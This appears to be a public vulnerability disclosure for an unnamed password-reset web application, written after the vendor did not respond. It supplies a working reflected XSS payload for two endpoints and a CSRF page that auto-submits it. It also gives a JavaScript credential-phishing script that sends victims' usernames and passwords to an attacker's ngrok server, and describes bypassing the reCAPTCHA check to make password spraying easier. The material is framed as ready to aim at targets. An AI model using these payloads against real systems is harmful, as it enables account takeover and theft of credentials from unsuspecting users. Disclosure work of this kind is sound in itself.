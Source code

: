 Vendor was emailed several times to fix this, no replies. 90 days was provided to fix the issue from my first email.

I was unable to view the version of this application. However, here is a list of vulnerabilities for the application:

## Reflected XSS

I found 2 XSS Vulnerabilites on the following URLs:

```
PasswordReset/ChangePass/ChangeThePass
PasswordReset/Reset/Authenticate
```

You may use the following payload as a POST request to the URL to reflect the contents of recaptcha-response. Please change the domain name to the domain you are targetting.

```
command=Next&Username=%24dc1&DomainName=xxxx.xxxx&ReCaptchaPublicKey=6LxOW5_v5AH39Tex8cBG4b57&g-recaptcha-response=%3c%73%76%67%20%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%31%29%3e&HomeUrl=%2FPasswordReset&X-Requested-With=XMLHttpRequest
```

### Weaponization

To abuse the POST Request Reflected XSS, you may pair it with a CSRF attack.

Create a page on your domain that you control with the following contents:
- Note: Change the form action URL to the target, and DomainName variable.

```js
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.com/PasswordReset/Reset/Authenticate" method="POST">
      <input type="hidden" name="command" value="Next" />
      <input type="hidden" name="Username" value="&#36;dc1" />
      <input type="hidden" name="DomainName" value="ad&#46;&#46;" />
      <input type="hidden" name="ReCaptchaPublicKey" value="6LcgSVkaAAdOW5&#95;v5A19Tgfx68cB5b57" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="<PAYLOAD>" />
      <input type="hidden" name="HomeUrl" value="&#47;PasswordReset" />
      <input type="hidden" name="X&#45;Requested&#45;With" value="XMLHttpRequest" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Anything in the recaptcha response get's reflected. So you will send a phishing link to your victim to your website which will redirect the post request to the website, thus running javascript on the victims browser.

I will leave it up to your imagination to do what you'd like with your payload. In my engagement, I wrote a proof of concept and created my own reset form, while hiding the real one, courcing the user to reset their password in it. You may improve it to do both the password reset and send the data to your server. I only sent the data to my server as proof of concept.

As noted, use `<script this.src="">` to remotely load your javascript, there is a character limit in the reflection, so you must load it remotely.

```js
//First we will want to remove the Server error so the user doesn't get suspicious. Also, make sure to </div> before script. We can remote load our javascript with <script this.src=""> so we'll do that.

<script>
const serverErrorElement = document.getElementById('serverError');
if (serverErrorElement) {
  serverErrorElement.remove();
}
const onElements = document.querySelectorAll('.on');
onElements.forEach((element) => {
  element.remove();
});
const offElements = document.querySelectorAll('.off');
offElements.forEach((element) => {
  element.remove();
});
const arrowImage = document.querySelector('img[src="/PasswordReset/Content/Images/arrow.svg"]');
if (arrowImage) {
  arrowImage.remove();
}

const nextButton = document.querySelector('button[value="Next"]');

// Add an event listener to the 'Next' button
nextButton.addEventListener('click', async (event) => {
  // Prevent the default button click behavior
  event.preventDefault();

// Get the values of the ConfirmPassword and Username fields
  const confirmPassword = document.getElementById('ConfirmPassword').value;
  const username = document.getElementById('Username').value;

  // Create the URL with the ConfirmPassword and Username values as parameters
  const url = `https://aaaaaa.ngrok.io/index.php?ConfirmPassword=${encodeURIComponent(confirmPassword)}&Username=${encodeURIComponent(username)}`;

  // Redirect to the other site's endpoint
  window.location.href = url;
});</script>
```

## Recaptcha Bypass

Create a Login request, capture it in Burpsuite. Change the password or username in the post request and re-send it. Additionally, you may change the re-captcha response to whatever you'd like, meaning the server doesn't actually check it. This is great for password spraying for once you've done username enumeration.


